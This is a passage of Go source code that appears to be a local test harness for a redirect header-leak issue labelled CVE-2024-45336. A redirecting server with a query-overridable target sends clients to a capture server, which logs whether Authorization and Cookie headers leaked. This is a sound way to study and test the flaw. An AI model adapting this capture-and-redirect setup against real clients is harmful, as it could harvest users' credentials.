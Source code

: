 ```go
		log.Println(" Authorization header NOT found.")
		fmt.Fprintln(w, "Authorization header NOT received.")
	}
	if cookieHeader!= "" {
		log.Println("!!! ALERT: Cookie header leaked!")
	} else {
		log.Println(" Cookie header NOT found.")
	}
}

func main() {
	port := "8082"
	log.Printf(" Starting on port %s", port)
	http.HandleFunc("/target_endpoint", captureHandler)
	if err := http.ListenAndServe(":"+port, nil); err!= nil {
		log.Fatalf(" Failed to start: %v", err)
	}
}`

**2. Redirecting Server (Server A) - `redirect_server.go`**

Go

`package main

import (
	"log"
	"net/http"
)

// targetURL will be the address of the Capture Server
var targetURL = "http://localhost:8082/target_endpoint" // Default, can be overridden by query param for flexibility

func redirectHandler(w http.ResponseWriter, r *http.Request) {
	// Allow overriding redirect target via query for testing different scenarios
	customTarget := r.URL.Query().Get("redirectTo")
	currentRedirectTarget := targetURL
	if customTarget!= "" {
		currentRedirectTarget = customTarget
	}

	log.Printf(" Received request for: %s. Redirecting to %s", r.URL.String(), currentRedirectTarget)
	// Using 307 Temporary Redirect to ensure method and body are preserved by the client.
	// The vulnerability primarily concerns headers, but 307 is relevant.
	http.Redirect(w, r, currentRedirectTarget, http.StatusTemporaryRedirect)
}

func main() {
	port := "8081"
	log.Printf(" Starting on port %s", port)
	http.HandleFunc("/initial_request", redirectHandler)
	// For multi-hop test (CVE-2024-45336 style):
	// Server A redirects to Server C (cross-domain, e.g., different port or external)
	// Server C then redirects back to Server A's /final_same_domain_target or to Server B
	// http.HandleFunc("/intermediate_cross_domain_hop", func(w http.ResponseWriter, r *http.Request) {
	//     finalTarget := "http://localhost:8082/target_endpoint" // Could be Server B
	//     log.Printf(" Redirecting to %s", finalTarget)
	//     http.Redirect(w, r, finalTarget, http.StatusTemporaryRedirect)
	// })
	if err := http.ListenAndServe(":"+port, nil); err!= nil {
```